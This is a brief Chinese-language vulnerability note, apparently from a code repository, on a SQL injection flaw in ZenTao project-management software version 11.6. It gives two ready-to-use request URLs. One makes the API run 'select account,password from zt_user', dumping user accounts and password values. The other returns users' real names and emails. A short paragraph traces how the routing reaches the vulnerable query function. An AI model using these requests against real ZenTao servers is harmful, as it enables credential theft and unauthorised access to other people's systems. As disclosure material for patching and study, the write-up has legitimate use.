 # 禅道 11.6 sql注入漏洞
漏洞url:

    http://xxx.xxx/zentaopms_11.6/www/api-getModel-user-getRealNameAndEmails-users=admin
    http://xxx.xxx/zentaopms_11.6/www/api-getModel-api-sql-sql=select+account,password+from+zt_user

这里简单说下禅道目前最新版所采用的pathinfo模式，首先通过传参确定进入的control文件为api，对应的method为getModel，接着开始对参数进行赋值，其中moduleName为api，methodName=sql，最后的param为sql=select+account,password+from+zt\_user，那么调用了call\_user\_func\_array函数后，会进入到api目录下的model文件，对应调用其中的sql函数，并通过赋值，将sql变量赋值为select+account,password+from+zt\_user，最后执行query语句